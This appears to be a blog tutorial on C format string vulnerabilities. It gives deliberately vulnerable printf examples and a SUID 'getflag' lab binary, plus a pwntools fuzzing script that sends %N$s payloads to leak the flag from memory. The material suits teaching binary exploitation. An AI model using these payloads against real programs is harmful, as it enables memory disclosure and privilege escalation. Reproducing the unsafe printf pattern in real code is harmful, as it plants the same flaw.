 ![](https://miro.medium.com/max/720/1*TZisE_z92hwvRiwmKZNwng.png)

Format String is a type of software vulnerability discovered around 1989 that could be used in security exploits. Originally thought to be harmless, format string exploits can be used to crash a program or to execute harmful code and leak memory information.

The vulnerability occurs when the printf function is implemented in code incorrectly. This is because of the lack of definition of the type of data passed, allowing the attacker to choose which data they want to be leaked, such as integers, characters, floats and among others.

This is a table of the data types that are used:

![](https://miro.medium.com/max/640/0*8pOcDFMnq1D6E8Yu.jpg)

## First Example

As stated above, the failure occurs because of a bad implementation of the printf function. Let’s see an example:

Vulnerable Code:

```
#include <stdio.h>

int main(int argc, char** argv) {
    printf(argv[1]);
}
```

Note the printf function, the variable is being passed without a definition of what data type will be interpreted. By that factor, we can add any data type and it will return. Watch the execution:

![](https://miro.medium.com/max/640/1*eVUGYfCUXpRe0ebmY84QVg.png)

Note that it was possible to leak data from the stack and we will print it in hexadecimal (%x). The same would be possible to leak important data and even help an escalation to remote code execution without needing much effort.

![](https://miro.medium.com/max/640/1*xPR1YhAW63H4m6SWPjQ1wA.png)

## Second Example
In this example, we are going to simulate a binary that will validate if a flag passed by the user is correct. There is a file called flag.txt which contains the flag, but it can only be viewed by the root user, which makes it impossible for any user without privileges to view it. The binary named getflag has SUID permission, which gives it read access to the flag. Let’s explore it:

Code:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main() {
    setuid(0);
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE* flag_f;
    char flag[32];
    char flagbuf[32];
    flag_f = fopen("flag.txt", "r");
    if (flag_f == NULL) {
        puts("The flag.txt file does not exist, please create it");
        return -1;
    }
    fgets(flag, sizeof(flag), flag_f);
    while (1) {
        printf("Put the flag: ");
        fgets(flagbuf, sizeof(flagbuf), stdin);
        if (strncmp(flagbuf, flag, sizeof(flag)) == 0) {
            printf("Correct flag!");
            return 0;
        }
        printf(flagbuf);
    }
}
```

Analyzing the code, we can interpret that it will read the flag from the flag.txt file and store it in the flag variable, while there will be a loop where there will be an input for the user to put the flag to validate, and the code will return if the flag is valid or not, otherwise it will print what the user sent. We found the vulnerability that is in the last lines of the code (printf(flagbuf)), so let’s exploit it:

![](https://miro.medium.com/max/640/1*cUcYefbGuMuHOAes9XKAHg.png)

To automatically leak the strings, we can do a fuzzing process using the [Python](https://www.python.org/) programming language together with the [pwntools](https://github.com/Gallopsled/pwntools) module. Look at the Python code:

```
from pwn import *

for x in range(100):
    try:
        p = process('./getflag', level='error')
        p.sendlineafter(b'Put the flag: ', '%{}$s'.format(x).encode())
        result = p.recvuntil(b'Put the flag: ')
        print(f'[+] {x} -> {result}')
        p.close()
    except:
        pass
```

printf can also index to an arbitrary “argument” with the following syntax: “%n$x” (where n is the decimal index of the desired argument). In this case, we will use it to return all values from 0 to 100.

Execution:

![](https://miro.medium.com/max/640/1*pPVjFwTyGPFQhKK257vs1Q.png)

![](https://miro.medium.com/max/640/1*WxClloNtc9-JZZgm3N3dFw.png)

As we can see, we didn’t have access to the flag.txt file and thanks to the SUID of the binary and the vulnerability that existed, it was possible to get the flag and validate it.

## Conclusion
We conclude that the format string vulnerability can be a problem that can lead to compromise of sensitive data through memory leaks. As much as this type of flaw is not so present nowadays, it is always mentioned in articles, challenges and even used in hacking courses.

All materials will be [available here](https://github.com/MrEmpy/BinaryExploitation/tree/main/02-format-string) if you are interested in testing.
